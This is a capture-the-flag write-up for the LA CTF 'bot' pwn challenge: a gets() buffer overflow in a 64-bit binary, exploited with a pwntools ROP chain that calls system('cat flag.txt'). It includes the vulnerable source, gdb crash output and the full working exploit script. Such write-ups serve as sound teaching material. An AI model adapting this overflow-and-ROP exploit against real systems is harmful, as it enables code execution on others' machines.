 # bot (pwn) by kaiphait  

We got a Dockerfile, a libc, a linker, a binary and the source code,
which is why my first thought was a ret2libc attack but it turned out that was not necessary.

First I checked the file and its mitigations:
```
file ./bot

bot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=1ed799aea3b8082b9dadde68dd67684e6101badc, for GNU/Linux 3.2.0, with debug_info, not stripped
--
checksec --file ./bot

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
It is a 64-bit binary with NX enabled so it won't be possible to just execute shellcode on the stack.

When the binary is executed it prints:
```
hi, how can i help?
```
and waits for an input.

### Source Code:  
Since the source code was given I had a look at that:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
```

Looking at how the binary gets its input, it's apparently vulnerable to a buffer overflow.
First I built a little script to generate test-payloads:
```
from pwn import *
import sys

junk = cyclic(200)

sys.stdout.buffer.write(junk)
```
```
python fuzzer.py > test
--
gdb bot
--
b main
--
r < test

```

But when I executed the binary with gdb, it did not cause the binary to crash since it exits
when an input does not equal any of the strings in the source code.

My second try looked like:
```
from pwn import *
import sys

junk = cyclic(200)
prefix = b"give me the flag\0"

sys.stdout.buffer.write(prefix + junk)
```
In order to get the binary to not exit but still overflow the buffer, I added a "valid" input, ending in a nullbyte.
Which then did overwrite rsp:
```
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffff7e8fa37  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007fffffffdf08  →  "aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabb[...]"
$rbp   : 0x61616e6161616d61 ("amaaanaa"?)
$rsi   : 0x1               
$rdi   : 0x00007ffff7f96a70  →  0x0000000000000000
$rip   : 0x00000000004012d2  →  <main+336> ret 
$r8    : 0x6               
$r9    : 0x0               
$r10   : 0x00007ffff7d84360  →  0x000f001a00007b95
$r11   : 0x246             
$r12   : 0x00007fffffffe018  →  0x00007fffffffe360  →  "/home/.../ctf/lactf/bot/bot"
$r13   : 0x0000000000401182  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf08│+0x0000: "aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabb[...]"	 ← $rsp
0x00007fffffffdf10│+0x0008: "aqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabd[...]"
0x00007fffffffdf18│+0x0010: "asaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabf[...]"
0x00007fffffffdf20│+0x0018: "auaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabh[...]"
0x00007fffffffdf28│+0x0020: "awaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabj[...]"
0x00007fffffffdf30│+0x0028: "ayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabl[...]"
0x00007fffffffdf38│+0x0030: "bbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabn[...]"
0x00007fffffffdf40│+0x0038: "bdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabp[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4012c7 <main+325>       call   0x401080 <exit@plt>
     0x4012cc <main+330>       mov    eax, 0x0
     0x4012d1 <main+335>       leave  
 →   0x4012d2 <main+336>       ret    
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:bot.c+33 ────
     28	     }
     29	   } else {
     30	     puts("sorry, i didn't understand your question");
     31	     exit(1);
     32	   }
 →   33	 }
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bot", stopped 0x4012d2 in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4012d2 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  Quit
gef➤  
```
## Exploit Script:
After I found a way to overwrite rsp I started writing my script: 
(note that the exploit is written manually and much could be automated like the finding of gadgets and symbols)
```
from pwn import *

binary = "./bot"

#proc = remote("lac.tf", 31180)

proc = process(binary)
#gdb.attach(proc) # for debugging

system = p64(0x401050) # Read from ghidra
pop_rdi = p64(0x40133b) # ROPgadget --binary bot | grep "pop rdi"
cat_flag = p64(0x4020f3) # Read from ghidra
addr_of_main = p64(0x401182) # readelf -s ./bot | grep main
ret_addr = p64(0x40133b + 1) # ret address for stack alignment

prefix = b"give me the flag\0"
junk = prefix + cyclic(cyclic_find("aoaa")) # "aoaa" from previous test with testpayload

# overflow buffer
payload = junk

# put the string "cat flag.txt" into rdi
payload += pop_rdi
payload += cat_flag

# ret for stack alignment
payload += ret_addr

# call system with rdi being "cat flag.txt"
payload += system

# return to main so the binary does not just crash
payload += addr_of_main

# send payload to binary
proc.sendlineafter("help?", payload)
#text = proc.recvline()
#log.info(text.decode("utf-8"))

proc.interactive()
```
In order to get all the addresses manually I threw the binary into ghidra and read some addresses from there.

### Executing:
```
[+] Opening connection to lac.tf on port 31180: Done
/home/.../.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:823: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode

lol no
lactf{hey_stop_bullying_my_bot_thats_not_nice}
hi, how can i help?
$  
```
It was a fun challenge, thanks!

